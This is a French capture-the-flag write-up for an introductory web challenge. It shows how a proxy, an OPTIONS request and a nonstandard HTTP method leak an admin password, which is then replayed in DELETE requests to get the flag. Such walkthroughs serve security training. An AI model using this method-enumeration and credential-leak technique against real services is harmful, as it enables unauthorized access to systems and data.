

# Mon champion détesté
Web - Easy/Intro

Le but est de supprimer Shaco. Il y a un gros bouton rouge qui permet de faire ça. Sauf que quand on clique dessus, ça ne marche pas.



Un message d'erreur indique qu'il y a sûrement besoin d'un mot de passe dans le corps du message pour réaliser cette action.


On peut utiliser un proxy pour intercepter la requête et voir ce qu'il se passe.

On comprend que quand on clique sur le bouton supprimer, on fait une requête DELETE à l'endpoint delete-the-champ.
```
DELETE /delete-the-champ
...
{ "deleted": true}
```

On essaie alors la méthode HTTP OPTIONS pour voir toutes les méthodes autorisées.

Une d'entre elles est différente des autres.
```
'Allow': 'DELETE, GET, OPTIONS, MOT_DE_PASSE_ADMIN'
```
On change alors le début de la requête par
``` 
MOT_DE_PASSE_ADMIN /delete-the-champ
```

On obtient alors le mot de passe  : ``N0zzyLePlusBeau-1234``

Enfin, on renvoie une nouvelle requête avec le mot de passe dedans
```
DELETE /delete-the-champ?password=N0zzyLePlusBeau-1234
...
{ "delete": true}
```
ou
```
DELETE /delete-the-champ
...
{ "delete": true, "password": "N0zzyLePlusBeau-1234"}

```

Puis directment obtenir le flag dans la réponse.

Voir aussi : 
https://onelots.fr/posts/2024/cybernight-2024/sivir/
(Le site était down pendant la cybernight)
